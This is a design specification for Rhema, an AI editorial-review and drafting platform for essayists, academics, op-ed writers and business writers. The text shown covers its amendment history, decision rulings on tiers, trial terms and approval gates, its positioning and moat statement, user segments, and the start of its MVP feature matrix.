


# Rhema — Product, UI/UX, and Technical Systems Design Specification

- **Status:** v1.0 — canonical · 2026-09-01 · Q-21…Q-26 **ratified by the operator** (the §16.3 #25–30 recommendations are now decisions; rulings R19–R26 in Appendix B.2 are final) · the v0.3 delta review (`docs/design/19`) is applied in full (Appendix E.5) · amended 2026-09-02 (AWS→GCP + direct Anthropic API — §12 banner), 2026-09-16 (REQ-BETA-19: open self-serve signup + self-serve credit purchase — see the §17 banner and the Appendix A.13 note), and 2026-09-17 (production domain is `rhema.tools` — one zone; `rhema.app`/`rhemausercontent.com` superseded; user-content origin → `usercontent.rhema.tools`, cookie isolation → host-only `__Host-` cookies — see the §13.3 banner; same date: prod database engine → **Cloud SQL for PostgreSQL** for the ~$50/mo prod budget — AlloyDB stays on dev/previews — see the §13.1 + §13.3 banners and ADR-010), and 2026-09-30 (round 3, launch readiness: **REQ-SPEC-29…32 added** — user-journey acceptance, tenant isolation in depth, research integrity, cost truthfulness; **REQ-SPEC-8, REQ-IDE-13, REQ-SPEC-1, REQ-GROWTH-1 amended** — interim trial terms, tier choice on the sheet, gate labels from the defaults table, the 20 s import as an SLO — see the Appendix A.9 note and ADR-013…017), and 2026-10-04 (reconciliation fold-back, REC.2 — the 2026-09-15 **G2 deferral** and the 2026-09-23 **early G3 read** recorded as §17 banners + the Appendix A.13 addendum; ADR-104/ADR-105), and 2026-10-10 (round-4 reconciliation fold-back, SPAREC.2 — **supersession pointers only**: the §12 `web` row's "React Router framework-mode SSR … hydrate" and §13.1's "**Web:** React Router framework mode (SSR)" + "**Editor:** Tiptap" descriptions are superseded in practice by the landed Hono SSR + islands + Vite/TanStack SPA — `docs/frontend-spa-spec.md` **v1.1** is the canonical renderer contract; ADR-106/107/108; see the §12-table + §13.1 banners), and 2026-10-17 (round-5 reconciliation fold-back, R5REC.2 — the **settled client-navigation mechanism** recorded: intra-app clicks route through one delegated bubble-phase `click` listener on `document` (the `nav-intercept.ts` ordered guard pipeline + skip-list; `SsrHandoff` replace-mode; the settle contract extended with `data-nav-count` + mounted-pending `data-mounted`) — `docs/frontend-spa-spec.md` **v1.2** §14.18/§14.19; ADR-110; see the §12-table + §13.1 banner addenda), and 2026-10-21 (R6UCD.1 / ADR-113 — user-content delivery is **API-minted GCS V4 signed GETs** on `storage.googleapis.com`; the edge-signed CDN contract is retired-in-place, its infrastructure inert — see the §13.3 banner), and 2026-10-20 (round-6 launch posture — **ADR-111**: the public launch is decoupled from G2 and the §17 Phase-1 exit criteria are amended; **ADR-112**: the external pen test moves to a dated post-launch obligation and an in-round adversarial security review gates the launch instead — see the §17 + §12.8 banners), and 2026-11-11 (round-6 reconciliation fold-back, 205_R6REC.2 / REQ-TAIL-3 — the ADR-111/112/113 banners verified against the built + launched product; the §17 launch-evidence fold-check, the §16.4 launch-posture note, and the Appendix A.13 addendum appended; BL-05's G2/G3/H3 + ADR-lineage fold confirmed) · next step: ticket decomposition per `docs/6_ticket-decomposition-prompt.md` (ledger row O6).
- **v0.2 → v0.3 delta, one paragraph:** Targeted amendments plus two new units, nothing else moved. (1) **RevisionObligation** becomes a first-class MVP object (§11.7; REQ-OBJ-1…8): blocking/major findings spawn durable debts closed only by a verified move, an argued rebut/defer, or mooting — making REQ-WF-7's carried/closed/new and §6.8's stall detection computed facts (now working for hand-run rounds) and folding `BacklogItem` in; the `ClaimVerdict` vocabulary is frozen, and claims gain `sources[]` stance edges and a `kind` (REQ-OBJ-17…19); a workspace preference profile is staged capture-now/learn-later behind a three-layer Editor firewall (REQ-OBJ-9…14). (2) A new **§18 Evaluation program** (REQ-EVAL-1…20): commissioned gold corpus, steelmanned best-of-two frontier baseline, human-adjudicated scoring, a numeric lift criterion with pre-committed go/no-go consequences. (3) The **authorship-legibility MVP slice** (AI-use statement, block-level provenance appendix and Authorship overlay, write-only span capture) moves from 1.x to MVP (§3.2 row 39; REQ-POS-6…10; ≈1.25–2 PM). (4) **Positioning:** §1.1 gains the category thesis, new §1.6 the competitive-moat statement, §15.1 review-first hero copy; Draft is demoted in narrative only, never in product (REQ-POS-5). (5) **§17** is restructured around a validation-first sequence — Phase 0 → benchmark → Review beta → full IDE → public launch — with its decision rule recorded (Q-22, since ratified). New requirement families `OBJ` / `EVAL` / `POS` / `BETA` are indexed in Appendix A.10–A.13; round-2 rulings R19–R26 in Appendix B.2.
- **Synthesized from:** `docs/design/2..9` (eight design documents, ~90k words) and, where they defer, `docs/research/2..12` (eleven research notes); binding inputs are the founding prompt (`docs/1_founding-prompt.md`) and the operator decisions register (`docs/2_research-and-design-ledger.md` §Q, Q-1…Q-20).
- **Supersedes:** every design document for any point on which they disagree. Where this spec and a design document differ, this spec is correct and the difference is recorded in §16 or Appendix B.

## 0. Front matter

### 0.1 How to read this document

This is one self-contained specification. It states decisions, not options; where an alternative was seriously considered it appears in a single "Rejected:" line. Sources are cited in brackets as `[design/2 §3.3]` or `[research/10 §4]` so the reasoning can be traced, and nothing here requires opening a source to be *understood*. Five contracts are too long to restate and are **adopted by reference as normative** — a ticket writer implementing them must open the named section and apply this spec's renames (Appendix A marks the affected rows): the analytics event catalogue (design/9 §7.2), the mobile contracts and endpoints (design/7 §8), the full domain-type listing (design/3 §3.2), the DDL (design/3 §3.3), and the usage read models (design/4 §6.3). Everything else in the design documents is superseded.

Sections 1–3 are product (vision, users, scope and phasing). Sections 4–10 are UI/UX (information architecture, the IDE surface by surface, workflows and gates, chat and visualizations, artifact visibility, voices and ingestion, mobile). Sections 11–13 are systems (data model, execution architecture, platform/infra/security/ops). Section 14 is billing. Section 15 is growth. Sections 16–17 are risks, departures, open questions, and roadmap. The appendices are the requirement index (every `REQ-*` with its source and where it lands in this spec), the decision register, the research index, and the glossary.

Wireframes are ASCII; diagrams are Mermaid. Both are carried over from the design documents where they carry information that prose would lose.

### 0.2 Requirement-ID convention

- Every requirement carries a stable identifier `REQ-<FAMILY>-<n>`. The families and their source documents are: `IDE` (design/2), `VIS` and `DATA` (design/3), `GROWTH`, `BILL`, `ACCT` (design/4), `ARCH`, `RUN` (design/5), `CHAT`, `GATE`, `VIZ` (design/6), `MOBILE` (design/7), `PERSONA`, `INGEST` (design/8), `PROD`, `WF`, `GENRE` (design/9).
- All 368 design-document requirement IDs are preserved verbatim; none collided across documents, so none is renumbered. Where this spec *amends* a requirement (changes its content), the amended text appears here with the note "(amended)" and Appendix A marks the row `amended`.
- Requirements this synthesis adds are `REQ-SPEC-n` (Appendix A.9). REQ-SPEC-1…5 fix conflicts between documents; REQ-SPEC-6 onward were added in v0.2 to resolve review findings (Appendix E). Round 2 (v0.3) adds four families: `OBJ` (design/15, object model), `EVAL` (design/16, evaluation program), `POS` (design/17, wedge/positioning/authorship), and `BETA` (design/18, Review beta — binding only if Q-22 chooses the beta); indexed in Appendix A.10–A.13.
- Acceptance-criteria hooks are marked **AC:** where the source supplied one. The ticketing session (O6) will turn every requirement into at least one acceptance test; requirements without an AC hook here need one written then.
- Ledger row identifiers (`D22`, `K8`, …) refer to the research-and-design ledger. Several design documents proposed *new* rows under colliding IDs; Appendix B assigns canonical IDs and this spec uses only the canonical ones.

### 0.3 Decision register summary

The binding operator decisions (Q-1…Q-20) are restated in Appendix B with the section that implements each. The rulings this synthesis makes on conflicts between design documents are, in one line each:

| # | Conflict | Ruling |
|---|---|---|
| R1 | Persona change after v1: hard lock [design/3 REQ-DATA-32; design/2 REQ-IDE-7] vs soft lock with Fork / Adopt [design/8 §4.3; design/9 §8.1; research/12 §3.4] | **Soft lock.** Direct change disabled after v1; *Fork under another voice* and *Adopt refreshed profile* are the two hatches. Q-20 departure from the operator's lean, recorded §16.1. |
| R2 | Project list default grouping: attention-first [design/2 §3.3] vs by voice with Unfiled first [design/8 §4.2; founding prompt ⚑] | **Attention-first** (Needs you / Running / Ready to read / Quiet); voice is a chip, the first filter, and a one-click alternate grouping remembered per user. New projects still land Unfiled. Q-20 departure, recorded §16.1. |
| R3 | Approval deadlines: 30 min everywhere [design/2 §5.5; design/9 §1.4] vs hours [design/6 §3.1; design/5 §2.6] vs "triage should wait" [design/7 open q. 7] | **Ruled per gate** (§6.4): Approve plan 24 h then proceed; Confirm scope is **informational by default** and blocks (2 h) only on Full board, on a protocol change, under *Wait for me at each*, or when the re-priced estimate exceeds the consented cap (v0.2, review 12 #4); **Approve triage waits** (no auto-proceed unless the user opts in per project); Approve outline waits; Approve sample 24 h within the consented cap; Approve cut list 2 h; Continue? per autonomy; every spend gate waits. Countdown pauses while the artifact is being read; a present user sees a 10-minute presence timer (§6.4). |
| R4 | Trial: reduced-depth only [research/6 §5.3] vs Full board within a 6,000-word cap [design/4 §4.1] | **Amended in v0.2 (review 12 #8):** the trial is an **entitlement** — one Review of ≤6,000 words at Standard rigor on Base, plus a 150-credit pocket — not a 600-credit balance. Full board is shown locked with its price. The activation moment is a full Standard dossier with a second read. |
| R5 | Free-tier daily chat allowance: 10 credits/day [design/4 §2.1] vs no daily grants [research/10 §5.7] | **Keep the allowance**, chat-only, no web research, nightly expiry. A free tier that can do nothing is churn; the cost bound is ≈$0.07/day. |
| R6 | Plan-tier names: Reader / Pro / Max / Max+ [design/4] vs Free / Writer / Studio / Studio Max [design/9] | **Free · Writer $20 · Studio $100 · Studio Max $200 · Team $40/seat.** "Trial" is a 14-day *state* of a Free account, not a tier. "Pro" is banned as a plan name (collides with three readings). |
| R7 | Model-quality-tier names: Standard / Balanced / Frontier [design/4] vs Standard / Advanced / Frontier [design/9] vs Standard / Pro / Frontier [design/6] | **Base · Balanced · Frontier.** "Standard" is reserved for the rigor notch; "Advanced" is reserved for the progressive-disclosure tier; "Pro" is banned. This enforces REQ-PROD-6 (disjoint vocabularies). |
| R8 | Agent seat names: Author / Editor [design/2, 3, 6] vs Drafter / Editor / Assistant [design/9] | **Drafter / Editor / Assistant** in every product surface. `agents/author/` remains the *storage namespace* and `author` the internal `AgentTypeKey`, for source-convention compatibility. Stated once in §6.6 and never again. |
| R9 | Assistant reads the Drafter's notebook read-only [design/6 §1.2] vs the convention's own-namespace rule | **Adopted** as the spec's decision; recorded in §16.2 as a convention departure needing operator confirmation. |
| R10 | Duplicate proposed ledger IDs (D22 ×5, K8 ×5, M13 ×3, G14 ×3, M10 ×3, …) | Fresh canonical IDs assigned in Appendix B §B.3; the spec uses only those. |
| R11 | Severity vocabulary: blocking / major / minor / note [design/2, 7] vs major / minor / note [design/3] | **blocking / major / minor / note.** The ported `editorial-review` emits it explicitly. |
| R12 | Run-state names and project-state names differ across design/2, 3, 5, 9 | One canonical run state machine (§12.4) and one canonical project state function (§6.3). |
| R13 | Pane names: Rail / Browser / Page / Margin / Timeline / Desk [design/2] vs Artifact browser / Paper / Companion pane [design/6, 7] | design/2's names as *internal* pane names. "Paper" survives only as the *theme* word. The user-facing i18n label of the Browser pane is **Files** (review 12 #16: "browser" collides with the Editor browsing the web); Desk tabs are labelled by their content ("Chat", "Live feed", "Findings", "Claims"). |
| R14 | Review 12 #28 (defer Figure and LaTeX export to 1.x) vs Q-8 (visualizations first-class; LaTeX "if easy") | **Keep both in MVP.** Figure is an operator decision; LaTeX is a free pandoc output of the export container. The other review-12 cuts (variants + compare, Cut to length, Source mode, span-level provenance marks, seat profile pages, section-boundary steering) move to 1.x (§3.2). |
| R15 | Review 12 #4 (Confirm scope non-blocking) vs Q-7 (gates on by default) | Informational by default at Quick/Standard; blocking at Full board and in the three named cases (§6.4). Q-7's rationale — long, expensive steps — is exactly the Full-board case. |
| R16 | Review 12 #8 (trial entitlement) vs the ≤$4 trial-COGS ceiling of research/6 and R4 | Entitlement at **Standard** (not Full board); worst-case list COGS ≈ $5.70 at 6,000 words (≈ 790 credits at price), typical (3–5k words) ≈ $2–4 — so the research/6 ceiling holds for typical drafts and is exceeded only near the word cap. The economics are re-based in §16.4 and the entitlement's word cap is a telemetry-tuned parameter (REQ-PROD-16). |
| R17 | Review 12 #13 (paper defaults light) vs Q-14 (dark by default) | **Shell dark by default; paper pinned Light by default.** "Paper in a dark shell" (principle 7) is the operator's dark default *plus* a light sheet inside it; the landing page stays dark. |
| R18 | Review 11 #44 (restate five contracts in an appendix) vs review 13 F46/§10 (scope is already double what a first release carries) | The five contracts are adopted **by reference as normative** (§0.1) and their renames are listed in Appendix A; restating ~9k words of DDL and types is deferred to the ticketing session, which will generate them from `packages/contracts`. |

### 0.4 Table of contents

1. Vision and positioning
2. Users and jobs to be done
3. Product scope and phasing (MVP / v1 / later)
4. Information architecture and navigation
5. IDE UI/UX, surface by surface
6. Workflows, approvals, and agent seats
7. The chat/research session and AI-generated visualizations
8. Artifact visibility policy
9. Voices (personas) and writing-sample ingestion
10. Mobile companion
11. Data model
12. Execution architecture and the run model
13. Platform, infrastructure, security, and operations
14. Billing, usage, and pricing
15. Landing page, onboarding, and growth
16. Risks, departures from operator requirements, and open questions
17. Roadmap
18. Evaluation program (comparative benchmark)
- Appendix A — Requirement index
- Appendix B — Decision register (operator decisions, synthesis rulings, canonical ledger IDs)
- Appendix C — Research index
- Appendix D — Glossary and reserved strings
- Appendix E — Review dispositions
- Appendix F — External-critique dispositions

---

## 1. Vision and positioning

### 1.1 What Rhema is

Rhema is a web platform that does for the drafting, research, and editorial process of written prose what the leading coding-agent IDEs do for code. It turns the four `~/agent-discourse` skill regimens — draft from an outline, editorial review, respond to review, build a voice profile — from locally run markdown rituals into a consumer product with a beautiful editor, live runs, anchored findings, verified sources, and metered billing [founding prompt; design/9 §1].

The one-line positioning, used on the landing page and nowhere contradicted in the product: **"An editorial board for everything you write."** The category word is *editorial*, never "AI writing assistant" [design/4 §1.3]. Underneath the line, the category thesis: Rhema is an **agentic environment for arguments and manuscripts** — the discipline coding agents brought to code, applied to written reasoning — in which claims, sources, findings, dispositions, revision moves and review rounds are first-class, inspectable objects rather than chat scrollback [§11; external critique §16, independently derived]. The order of the two formulations is deliberate: the writer meets the board; the board stands on the object graph — the thesis formulation appears in prose, docs, and analyst-facing material only, never as a hero headline (REQ-POS-4). And the posture is **augmentation, never substitution**: Rhema reviews, verifies, and strengthens work the author owns — drafting from the author's outline in the author's measured register is a supporting act in every narrative surface, and authorship stays legible end to end (run-level AI-use statement, provenance appendix, Authorship overlay — §8.4). Marketing leads with the review loop; the product carries the full loop [design/17 §3].

### 1.2 The seven theses the design confirmed

The founding session began with seven working theses. The research and design work confirmed or corrected each; the corrected forms are the spine of this spec.

| Thesis | Verdict | Form adopted |
|---|---|---|
| T1 The unit is the project and its timeline, not the agent | Confirmed, reconciled with the sessions-first reality of every coding product | The round timeline *is* the runs list (§5.5). Agent seats are provenance on artifacts, never navigation (§6.6). |
| T2 Review findings are the killer UI | Confirmed and sharpened | Findings are anchored comments that may carry a suggestion; dispositions (accept / adapt / rebut / defer / escalate) replace "resolve" and *write the response ledger* (§5.7). |
| T3 Private agent memory hidden by default | Strong form refuted; narrowed | The user *is* the author. The Drafter's notebook is inspectable; only the Editor's undelivered deliberations, persona hold-outs, and process residue are hidden (§8). |
| T4 Execute on a mature hosted harness, wrap in a thin durable layer we own | Confirmed with amendments | Self-hosted Claude Agent SDK (TypeScript) in a per-run Fargate sandbox we own; skills load verbatim, one phase per query; Postgres run ledger + pg-boss (§12). |
| T5 Persona drift is a staleness problem with three inputs | Amended to four inputs | Seed hash, sample-set hash, age/growth, calibration status → one pill, eight computed states, a diff-of-inputs panel, a priced partial refresh; never blocking (§9.3). |
| T6 Markdown-backed ProseMirror WYSIWYG | Confirmed with a correction | Tiptap MIT core; findings as decorations from a sidecar; version compare as a server-side diff at MVP; in-document suggestion mode and working-copy reconciliation are 1.x (§5.4, §5.10, §13.1; review 13 F46). |
| T7 Credit/usage metering under subscription tiers, estimate before / actuals after | Confirmed thrice | Cent-credits, per-run price cards, a firm estimate with a guaranteed 1.5× cap, usage at four zoom levels (§14). |

### 1.3 Ten design principles

Every surface in this spec obeys these [design/2 §1; design/3 §1; design/5 §5]:

1. **The spine is the round log** — outline → v1 → review → response → v2. Everything hangs off a round.
2. **One run grammar everywhere** — transcript with collapsed tool calls, a gating plan artifact, a "what changed" surface, a state-grouped run list. The content types are prose, not code.
3. **Approvals are soft by mechanism, on by policy** — approve-with-deadline cards where waiting costs nothing; never a blocking modal.
4. **The user is the author.** The Drafter's memory is the user's own notebook; the Editor's deliberations are sealed until delivered.
5. **Progress comes from the orchestrator's phase model**, never from an agent-authored checklist.
6. **Never surprise on money** — estimate and cap before, live meter during, run report after; failed phases are refunded.
7. **Paper in a dark shell** — dense sans chrome around a serif page with a 68-character measure; the two textures nest, never blend.
8. **"Save" is not a verb.** Restore never deletes correspondence. Reviewed drafts are immutable.
9. **Show integrity as a feature** — sealed memory, sources actually fetched, boundary attestation — as chips, not directories.
10. **Protocols are never text; outputs always are.** Rubrics, verdict rules, prompts and skill bodies stay server-side; every verdict, URL, score and finding they produce is shown.

### 1.4 Positioning against the alternatives a writer already has

- **Against ChatGPT/Claude chat:** Rhema's review is a dossier — a claim ledger with fetched URLs, a discourse report, an independent second read that never saw the first reader's notes, and a rubric with entailment caps — not a single-context opinion [design/4 §1.3 §4; research/5 §2.2].
- **Against reviewer-simulation products:** "Independent second read, not a panel of personas." The boundary between Drafter and Editor is enforced by the runtime and attested per run (§12.6), which no persona-theatre product can claim.
- **Against Grammarly-class assistants:** line edits are rationed against the writer's own measured voice print; the product tells the writer "3 em-dashes over your ration" rather than homogenizing prose [design/9 §6].
- **Against the coding IDEs it imitates:** the same run grammar, palette, and estimate-and-cap contract — but a *guaranteed* price cap before every agentic run, which no coding product offers [design/4 §5].

### 1.5 Non-goals

Rhema never publishes (export-only, Q-9); never gates voices on ethics (Q-11, metadata only); never trains on user content; never markets to peer reviewers as a manuscript-evaluation tool; does not ship fiction, marketing copy, plagiarism detection, leaderboards, a browser pane, or user-configured tool servers in the first year (§3.4).

### 1.6 What compounds (the competitive-moat statement)

Frontier platforms will absorb every feature describable as a prompt. Rhema's defense is never prompt quality; it is the set of assets below, each of which either ships in this spec (with its section) or is named honestly as not yet built (with when, and by what). The two structural gaps the external critique found now have specifications: the comparative evaluation program is §18 and the longitudinal author model is §11.7 — their *build* status is stated below, not bluffed [design/17 §4; critique §10 dispositioned in Appendix F].

| # | Asset | Status | Where, honestly |
|---|---|---|---|
| 1 | **Editorial methodology** — encoded protocols, independence rules, calibration, revision semantics | **Built (MVP)** | Versioned, contract-tested protocol package (§6.7, REQ-SPEC-22); independence enforced at the kernel and attested per run (§12.6); "protocols are never text; outputs always are" (principle 10) |
| 2 | **Evaluation corpus** — blind comparison vs frontier baselines and human editors | **Program specced (§18); corpus not yet built** — §13.5's regression evals exist today; the comparative corpus, blind arms and lift criterion are defined and funded (Q-23 ratified); corpus commissioning is the §18.1 next step | §18; REQ-EVAL-1…20; no marketing claim may cite this asset until a pre-registered wave meets its criteria (REQ-EVAL-19) |
| 3 | **Longitudinal author model** — learning from accepted/rejected/rebutted findings across projects | **Capture built (MVP); learning staged** — dispositions, rationales, `applied` flags and finding lineage are rows today (§11.3, §11.7); deterministic aggregates 1.x, Drafter priors 2.0, all behind the Editor firewall | §11.7; REQ-OBJ-9…14; privacy posture per Q-12/Q-26 |
| 4 | **Manuscript/evidence graph** — claims, sources, findings, obligations, revision lineage as rows | **Built (MVP)** | §11 in full: sidecar-first structured output (REQ-SPEC-12), enforced `cited ⇒ fetched` (REQ-VIS-9), obligation lineage (§11.7), disposition → move → diff joins (§5.8). The *argument graph* is the one absent primitive — a v2-posture research spike gated on §18's corpus (REQ-OBJ-15) |
| 5 | **Venue and audience calibration** | **Partial (MVP)** | Venue bars, verdict vocabularies, `verified_at` venue tables per protocol (§6.7); *empirically grounded* profiles (acceptance/reception outcomes feeding back) await north-star telemetry — Later, explicitly |
| 6 | **Workflow switching costs** — corpus, voices, source libraries, revision history, standing guidance | **Built (MVP), deliberately honest** | All accrue (§9, §11.6) — and whole-account export still round-trips into a fresh account (REQ-ACCT-3): the moat is accumulated value, never hostage data. That choice is load-bearing for asset 7 |
| 7 | **Trust and brand** | **Mechanism built (MVP); brand accrues post-launch** | Attestation from facts the sandbox cannot touch (§12.6), fetched-✓ chips, the guaranteed price cap (§14.4), measured-claims-only marketing (REQ-GROWTH-5/REQ-EVAL-19) |
| 8 | **Open methodology + proprietary evaluations/data** | **Resolved differently, on purpose** | Rhema keeps protocols server-side (SS class, §8.4) and substitutes a **transparency floor of outputs** — every verdict, URL, score and finding shown — plus the *published benchmark methodology* of §18.5 for open methodology as the audit story. The public upstream repo (`agent-discourse`, Q-19) remains harness-neutral and could serve as distribution; that half is an open strategic option, revisited at the first marketing push, not a commitment |

The bear case this table answers (external critique §15, dispositioned in Appendix F): if Rhema were a bundle of prompts in a pretty editor it would be a feature, not a company. What a horizontal platform cannot replicate by prompting: the kernel-enforced independent second read with attestation (1), the metered estimate-and-cap contract at the wire (§12.7), the response-ledger, obligation and provenance data compounding under 3 and 4 — and, once §18's first two waves run, a published comparative benchmark (2) that either proves the lift or tells us to stop. No marketing claim may cite an asset marked "not yet"/"not yet built" (REQ-POS-12).

---

## 2. Users and jobs to be done

### 2.1 Who the buyer is

A single author who sits at a desk with a long draft and a venue in mind [research/5 §8]. Collaboration arrives later (Q-6) as Databricks-style project roles (§11.6). The MVP genres are those where an editorial protocol already exists as named practice and where the writer will pay per piece rather than per month of chat [research/12 §1; design/9 §3].

**The wedge (ratified by the operator 2026-09-01, Q-21): Essay-led GTM.** The landing hero, hero recording, Showcase project, pricing-page lead card, and first-90-day channels address the serious essayist / newsletter writer / public intellectual (REQ-POS-1); **Academic, Op-ed and Memo ship complete at MVP** (Q-15 unchanged — the wedge decision is narrative, not scope) and appear on every scope surface, but no launch-narrative surface leads with Academic. Grounds: research/12 §1 and the external critique's §4 converge on the segment independently; the measured voice profile is the differentiator no essay-market incumbent has; the founding prompt's academic anchor was a capability note ("what the existing skill is tailored to"), not a GTM commitment, and Q-15 already moved scope past academic-only; headlining Academic would spend the launch window being comparison-shopped against reference-checkers, while a wrong Essay bet costs a landing-page rewrite (asymmetric downside) [design/17 §1]. Revisit at the 90-day metrics re-base against the drop-zone protocol mix. The segment table is ordered accordingly:

| Segment | Protocol (§6.7) | Venue bar | What they already have | Integrity norms | Willingness to pay |
|---|---|---|---|---|---|
| **Essayist / newsletter writer** (Substack, blog, long-form opinion) | Essay (default for Unfiled projects) | own archive (linked voice) or a named venue | notes or nothing; a Substack archive | disclosure norm forming (reader-facing AI scanning on Substack since 2026-07; "How I make this" statements — research/13 §A3); provenance appendix + AI-use statement at MVP (row 39) | $8–22/mo consumer anchors; pays for a voice profile |
| **Academic** (journal article, thesis chapter, grant) | Academic | target journal / committee; seeded venue table | outline or notes, bibliography (BibTeX / CSL-JSON), prior drafts | no fabricated references; ICMJE/COPE disclosure; machine may not supply results, data, or first-person method claims | high per piece; $12–169/mo academic tool anchors [research/5 §2] |
| **Op-ed writer** | Op-ed | outlet table (NYT, WaPo, WSJ, LAT, USA Today, Globe) with word caps | a take and a news peg | exclusivity reminder at export; sourced news peg | lower monthly, high value per accepted piece; the cheapest full-regimen demo |
| **Business writer** (six-pager, report, whitepaper) | Memo | "read silently in a room and decide" | data, a decision, an audience | confidentiality: no web fetch of internal figures; machine may not supply the recommendation or the numbers | Studio-tier; Team later |

Deferred segments with reasons [design/9 §3.5]: Journalism (review-only default; needs a source-and-quote ledger; 1.x), Creative nonfiction (author-only gap list as an Approval; 1.x), Technical docs (house voices; 1.x), Marketing (house voice + Line edit, never a copy product; later), Fiction (different rubric family; incumbent at $10–44/mo; explicitly deferred). This narrows the founding prompt's "all possible use cases" list and is recorded as departure D9 (§16.1).

### 2.2 Jobs to be done, in the user's words

1. "Tell me honestly whether this survives the venue: every claim checked, the field mapped, an independent second read, a verdict." — **Review**.
2. "Write the first full draft from my outline, in my voice, with every inherited citation re-verified." — **Draft**.
3. "Take the review seriously: verify its load-bearing findings, decide each one, and produce the next draft with a point-by-point letter." — **Revise**.
4. "Learn how I actually write — measured, tested on a held-out piece — so drafts sound like me." — **Profile voice**.
5. "Let me think aloud and research with an assistant, then turn that into an outline I can draft from." — **Assistant + Outline**.
6. "Check every claim and give me the ledger." / "Bring this under the outlet's cap." / "Make a figure from these numbers and put it where it belongs." — **Fact-check · Cut to length (1.x) · Figure**.
7. "Approve the $60 run from the train before it auto-proceeds; triage 23 findings while waiting for coffee." — **Phone-width web at MVP; the mobile app in 1.x** (§10).

### 2.3 The user's mobile moments

(a) the review is ready — read the letter on the train; (b) the structure plan is waiting — approve before it proceeds; (c) triage findings in a queue; (d) ask the Assistant a question about §3. None is composing 15,000 words or configuring a rigor dial. This fixes the mobile scope rule (REQ-MOBILE-1).

### 2.4 The first five minutes

Time to first value must be inference-free where possible and under ten minutes always [research/6 §5.2]. Every new workspace ships with a **Showcase project** (a ~2,000-word essay's outline, v1, full-board dossier, triage ledger, v2 and response letter, pre-computed once and copied at $0; content per §16.3 #21), opened on its timeline with the first finding selected, so a finding anchored to its passage is seen within 60 seconds — unless the user arrived with a hero-dropped file, in which case the dropped file wins and the Showcase is the second row of the project list (§15.3). The three entry points — Start from scratch, Upload an outline, Upload a draft — then lead to a first own run within five minutes on the trial entitlement (§14.3, §15.3, §7.6).

---

## 3. Product scope and phasing

### 3.1 Definitions

- **MVP** — the first public release: Free (with trial), Writer, and Studio tiers; four protocols (Academic, Essay, Op-ed, Memo); web only (phone-width web supports approvals, dispositions and chat — §10.1); Anthropic models only.
- **1.x** — the named minors after MVP that together complete the first-year spec ("v1" in the ledger). **1.1** is the first minor (BYO keys, mobile light edits, "run next with defaults", passkeys); everything else in the column is **1.2+** and is written "1.x". "v1" is never used as a phase name in this document; "v1", "v2" alone always mean draft versions.
- **Later** — v2 and beyond.

The feature matrix below is the phasing source of truth for the ticketing session (REQ-PROD-13): each row becomes epic `EPIC-<n>` with the row number.

### 3.2 Feature matrix

| # | Feature | MVP | 1.x | Later | Spec § | Source |
|---|---|---|---|---|---|---|
| **Projects & entry** | | | | | | |
| 1 | Project list grouped Needs you / Running / Ready to read / Quiet; voice as chip, filter, alternate grouping; Unfiled default | ● | | | 5.2 | R2; design/2 §3 |
| 2 | Three entry points (scratch / outline / draft) | ● | | | 5.3 | ⚑ |
| 3 | Entry point 4: draft + existing review (dossier import) | | 1.x | | 5.3 | research/2 §4.3 |
